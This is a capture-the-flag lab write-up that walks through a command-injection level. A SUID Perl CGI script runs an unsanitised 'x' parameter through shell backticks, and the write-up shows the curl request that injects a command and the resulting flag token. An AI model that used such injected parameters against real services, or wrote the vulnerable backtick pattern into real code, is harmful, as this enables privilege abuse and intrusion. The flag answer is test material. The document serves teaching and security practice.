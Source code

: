 # Level 04 - Command Injection via CGI

## Step 1: Examine available files

First, let's check what files we have in the current directory:

```sh
ls -l
```

We find a Perl script with the following permissions:

```
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

Note that this file is owned by `flag04` and has the SUID bit set, meaning it will run with the privileges of its owner.

## Step 2: Execute and analyze the script
When we run the script directly, we only get:
```
Content-type: text/html

```
Let's examine the script's content:
```sh
cat level04.pl
```

Output:
```pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

## Step 3: Understand the vulnerability
The script analysis reveals:
1. It's a CGI (Common Gateway Interface) script running on localhost port 4747
2. It takes a parametr named  "x" from web requests
3. It passes this parameter to a function that executes `echo $y` through a shell (using backticks `)
4. The value of the parameter is not sanitized before being passed th the shell

This is a classic command injection vulnerability. The backticks in Perl execute whateveris inside them in a shell, similar to `system()` or `exec()`.

## Step 4: Exploit the vulnerability

We can pass shell commands as the "x" parameter, and they'll be executed with flag04's privileges. By using backticks inside the parameter value, we can execute arbitrary commands:

```sh
curl 'localhost:4747/level04.pl?x=`getflag`'
```

When the script processes this request:

1. It extracts the parameter value (`getflag`)
2. The backticks tell the shell to execute this as a command
3. Since the script runs with flag04's privileges, `getflag` runs as flag04

## Step 5: Get the flag
The output from our curl command gives us the flag:

```
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
